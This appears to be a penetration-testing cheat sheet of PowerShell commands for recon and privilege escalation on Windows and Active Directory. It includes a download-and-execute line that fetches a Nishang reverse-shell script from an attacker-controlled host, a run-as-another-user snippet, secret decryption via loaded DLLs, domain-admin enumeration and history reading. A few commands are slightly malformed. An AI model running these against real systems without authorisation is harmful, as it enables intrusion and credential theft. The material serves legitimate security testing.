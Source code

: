 # PowerShell

Some useful PowerShell commands that you can use during your recon or privsec phases.


## Execute block as an other user

```powershell
$pass = ConvertTo-SecureString '<password>' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("<dom>\<username>", $pass)
Invoke-Command -Computer <computer_name> -Credential $cred -ScriptBlock { cmd.exe "/c <cmd>" }
```


## Download and execute script

The repository [Nishang](https://github.com/samratashok/nishang) contains a good
PowerShell script to create a [reverse shell](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).
You need to add the following line at the end:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress <ip> -Port <port>
```

On your local machine:

- Create an HTTP server to serve the script: `python -m http.serve`
- Listen for an incoming [connection with nc](reverse-shell.md#listen-with-netcat).

On the remote host, execute the following PowerShell script:

```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://<ip>:<port>/<script_name.ps1>')
```


## Execute C# DLL from Powershell

```powershell
# Load a dll to Powershell
[Reflection.Assembly]::LoadFile("C:\Path\MyNamespace.Service.dll")
[Reflection.Assembly]::LoadFile("C:\Path\MyNamespace.Cryptography.dll")

# Call a public public static method
[MyNamespace.Service.Config]::ApplicationKey()

# Instantiate a class and class a method
$c = New-Object MyNamespace.Cryptography.MyCryptography
$c.Decrypt("CIPHER_TEXT", [MyNamespace.Service.Config]::ApplicationKey())
```


## Domain commands


### Collect AD users information

Here is snippets of Powershell commands to interact with AD LDAP. You can also
use customize filters to get vulnerable users ([SPN](./windows.md#list-spn-accounts), ...)

```powershell
# Helping functions
function Get-ADUserDirectoryEntry($user) {
    return (New-Object System.DirectoryServices.DirectorySearcher("(&(objectCategory=User)(samAccountName=$user))")).FindOne().GetDirectoryEntry()
}

function Get-ADUserGroups($user) {
    $userDirectoryEntry = Get-ADUserDirectoryEntry($user)
    $groups = $userDirectoryEntry.memberOf

    return $groups
}

function Get-ADGroupMembers($GroupName) {
    if ($GroupName -like "CN=*") {
        $GroupDistinguishedName = $GroupName
    } else {
        # find the distinguished name from the group name
        $GroupDistinguishedName = (New-Object System.DirectoryServices.DirectorySearcher("(&(objectCategory=Group)(cn=$GroupName))")).FindOne().GetDirectoryEntry().distinguishedName
    }

    # limited to the first 10k entries
    $GroupMembers = (New-Object System.DirectoryServices.DirectorySearcher("(&(objectCategory=User)(memberOf=$GroupDistinguishedName ))")).FindAll()

    return $GroupMembers.properties
}

function Get-ADComputerByOS($operatingSystem) {
    # https://ldapwiki.com/wiki/Active%20Directory%20Computer%20Related%20LDAP%20Query
    return (New-Object System.DirectoryServices.DirectorySearcher("(&(&(&(samAccountType=805306369)(objectCategory=computer)(operatingSystem=$operatingSystem*))))")).FindAll()
}

# Get "Domain admins" users, be carefull the name may change depending on the DC lang
$DomainAdmins = Get-ADGroupMembers("Domain Admins")
foreach($user in $DomainAdmins) { echo "$($user.displayname) ($($user.samaccountname))" }
```


### Get Domain Password Policy

```powershell
$policy = Get-ADDefaultDomainPasswordPolicy -Credential $cred -Server $domain
```


### Get user owner

```powershell
Get-ADUser $USERNAME | ForEach-Object {Get-ACL "AD:\$($_.DistinguishedName)" | Select-Object -ExpandProperty Owner}
```


### List deleted users

```powershell
$deletedObjectsDom = get-addomain | select DeletedObjectsContainer
$objects = Get-ADObject -SearchBase $deletedObjectsDom.DeletedObjectsContainer -ldapfilter "(objectClass=user)" -IncludeDeletedObjects -properties *
foreach ($object in $objects) { $object }
```


## Miscellaneous commands

### List TCP listening connections

The [`Get-NetTCPConnection`](https://docs.microsoft.com/en-us/powershell/module/nettcpip/get-nettcpconnection?view=win10-ps)
cmdlets lists TCP connections. By default the processes pid is return, so the
following command line select the process name instead.

```powershell
Get-NetTCPConnection -State Listen | Select local*, remote*, state, @{Name="Process";Expression={(Get-Process -Id $_.OwningProcess).ProcessName}} | Format-Table -AutoSize
```


### List Email aliases

```powershell
$ (Get-ADUser -Identity <user_ad_id> -Properties proxyAddresses).proxyAddresses
```


### Get PowerShell command history

```powershell
cd "$env:APPDATA\Microsoft\Windows\PowerShell\PSReadline"
gc ConsoleHost_history.txt
```


### Convert DACL

```powershell
$acl = get-acl HKLM:\System\CurrentControlSet\Services
ConvertFrom-SddlString -Sddl $acl -type RegistryRights | { Foreach-Object { $.DiscretionaryAcl } }
```


### Set Password Remotely

This [script](./assets/Set-PasswordRemotely.ps1) change the password of a user
on a remote forest.

```powershell
Set-PasswordRemotely {USERNAME} {DOMAIN}
```

### List Certificates

```powershell
$NamingContext = "DC=corpo,DC=lan"

$directoryEntry = New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Configuration,$NamingContext")
$adSearcher = New-Object System.DirectoryServices.DirectorySearcher($directoryEntry, "(distinguishedName=CN=NTAuthCertificates,CN=Public Key Services,CN=Services,CN=Configuration,$NamingContext)")
$NTAuthCertificates = $adSearcher.FindOne()
$cacertificates = $NTAuthCertificates.Properties.cacertificate

Foreach ($rawByte in $cacertificates) {
    $cacertificate = [System.Security.Cryptography.X509Certificates.X509Certificate2]$rawByte

    $subjectName = [System.Text.Encoding]::Default.GetString($cacertificate.SubjectName.RawData)
    $issuerName = [System.Text.Encoding]::Default.GetString($cacertificate.IssuerName.RawData)
    $signatureAlgorithm = $cacertificate.SignatureAlgorithm.FriendlyName
}
```


### List inactive computers

```powershell
$computers = (New-Object System.DirectoryServices.DirectorySearcher("(&(&(samAccountType=805306369)(objectCategory=computer)))")).FindAll()

$inactiveDays = 180
$limit = (Get-Date).AddDays(-1 * $inactiveDays)
$path = "C:\Temp\Inactive_Computers_$($inactiveDays)days.csv"

foreach($computer in $computers) {
    $c = $computer
    $lastlogontimestamp = [datetime]::FromFileTime($c.Properties.lastlogontimestamp[0])
    $pwdlastset = [datetime]::FromFileTime($c.Properties.pwdlastset[0])

    if ($lastlogontimestamp -lt $limit) {
        Add-Content $path "$($c.Properties.name),$($pwdlastset),$($lastlogontimestamp),$($c.Properties.operatingsystem)"
    }
}
```
